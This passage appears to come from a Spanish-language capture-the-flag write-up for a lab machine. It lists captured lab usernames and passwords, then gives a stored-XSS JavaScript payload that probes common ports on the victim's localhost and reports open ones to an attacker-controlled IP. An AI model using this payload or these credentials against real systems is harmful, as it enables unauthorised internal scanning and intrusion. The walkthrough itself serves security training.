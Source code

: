 ![alt text](../../../assets/images/token-of-hate/image-11.png)

Las anotamos para tenerlas presentes:

```text
['admin', 'dUnAyw92B7qD4OVIqWXd', 'admin'],
['Łukasz', 'dQnwTCpdCUGGqBQXedLd', 'user'],
['Þór', 'EYNlxMUjTbEDbNWSvwvQ', 'user'],
['Ægir', 'DXwgeMuQBAtCWPPQpJtv', 'user'],
['Çetin', 'FuLqqEAErWQsmTQQQhsb', 'user'],
['José', 'FuLqqEAErWQsmTQQQhsb', 'user'],
```

### Solicitudes a recursos internos (SSRF)

Utilizamos el mismo XSS almacenado para descubrir recursos internos del servidor. Volvemos a modificar el archivo `script.js` para realizar un escaneo interno de los puertos más comunes para `http`. Cambia la IP `192.168.1.181` por la de tu servidor web:

```javascript
const ports=[66,80,81,443,445,457,1080,1100,1241,1352,1433,1434,1521,1944,2301,3000,3128,3306,4000,4001,4002,4100,5000,5432,5800,5801,5802,6346,6347,7001,7002,8000,8080,8443,8888,30821];
function handleLoad(x,p) {
  let y=new XMLHttpRequest();
  y.open("GET",`http://192.168.1.181/ping?port=${p}`);
  y.send();
}
ports.forEach( (p,i) =>
  setTimeout( () => {
    let x=new XMLHttpRequest();
    x.open("GET",`http://localhost:${p}`);
    x.timeout=300;
    x.onload=()=>handleLoad(x,p);x.send();
  }, i*10)
);
```
